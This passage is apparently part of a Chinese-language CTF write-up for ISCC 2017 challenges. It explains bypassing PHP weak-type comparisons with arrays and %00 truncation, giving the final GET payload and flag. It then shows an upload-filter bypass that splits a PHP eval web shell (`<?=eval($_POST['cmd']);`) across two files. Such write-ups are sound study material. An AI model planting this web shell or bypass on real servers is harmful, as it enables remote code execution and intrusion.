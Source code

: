 	$a["bar2"] = [[1,2],2,3,4, 0];

### 矛盾三：利用数组和%00截断绕过

下面是第三个矛盾：`!strcmp($c[1],$d) && $c[1]!==$d`，要求`$c[1]`,`$d`这两个变量在**strcmp**函数中相等，又严格不等。strcmp函数首先要将比较的参数转换成string类型，因此这里可以用到**Array类型**，Array类型在转换成String时会转换成一个常量字符串`"Array"`，所以可以让`$c[1]=Array()`，`$d="Array"`。这样就能够绕过这一检测。

紧接着下面一个矛盾是下面两行代码：

	eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
	strpos(($c[0].$d), "isccctf2017")?$v3=1:NULL;
要求`$d.$c[0]`中不含字符`3|1|c`，但是有要求`$c[0].$d`中含有字符串`isccctf2017`，注意到字符串拼接的时候，两个字符串的顺序正好相反，所以想到使用**%00截断**，将`%00`添加到`$d`的末尾截断字符串（`$d`不含字符`3|1|c`）、将`"isccctf2017"`包含在变量`$c[0]`中，就可以同时满足上面两条语句。

### 最终payload

综上所述，我们能够将能够满足`echo $flag;`的条件，还要注意`$a`是从url的GET参数`iscc`中JSON解码得出的，因此字符串`$a`要通过参数`iscc`以JSON的格式传递。

As a result:

	?iscc={"bar1":"2017anc","bar2":[[1,2],2,3,4,0]}&cat[0]=1isccctf2017&cat[1][]=1&dog=Array%00

得到FLAG：

	flag{sfklljljdstuaft}

### 总结

综合上面的几个矛盾的绕过，其实我们可以看到核心都在PHP的**弱类型**上，正是由于数组转String，string转int等一系列的弱类型转换中出现的各种性质，结合**严格相等**和**严格不等**的严格类型检测，才能使得上面一系列两个看似矛盾的语句都能够满足。

---

## I have a jpg,i upload a txt.

这是一道文件上传的题目，此题关键有二：

- 猜解其加密函数
- 绕过上传文件内容限制

首先是猜解其加密函数，我们可以看到其自定义的加密函数名大致为**KAISA**，并且发现其函数传入了一个参数6。因此猜测是偏移为6的凯撒加密，猜测基本正确。实际上又稍微绕了一点，小写字母与大写字母的偏移方向是相反的，其他字符则保持不变。

猜解出了加密函数之后，就可以自己上传文件并构造Array的**serial**更改文件的后缀了，到这里我们已经可以上传文件并将其更改为php后缀。

下一步是文件内容的绕过。代码中限制了`<?`，`php`这种关键字，正常情况下比较难以绕过，但通过研究其代码可以发现其逻辑漏洞。在文件重命名的处理中，首先保证了Array的长度为2；接着又判断Array的key值：0则是改变的文件后缀，否则则是写入value值对应文件名的文件内容。此处存在一个逻辑漏洞：

可以构造这样一个Array：`array(1=>value1, 2=>value2)`，此处value1，value2为我们之前上传的两个文件名，就可以把两个文件的内容拼接起来，从而绕过过滤。可以使用一句话木马:

```php
<?=eval($_POST['cmd']);
```

，并分成两个文件：

- File1：<
- File2：?=eval($_POST['cmd']);

成功后执行上传的php文件会进行302跳转，FLAG就在302跳转时所传送的信息中。
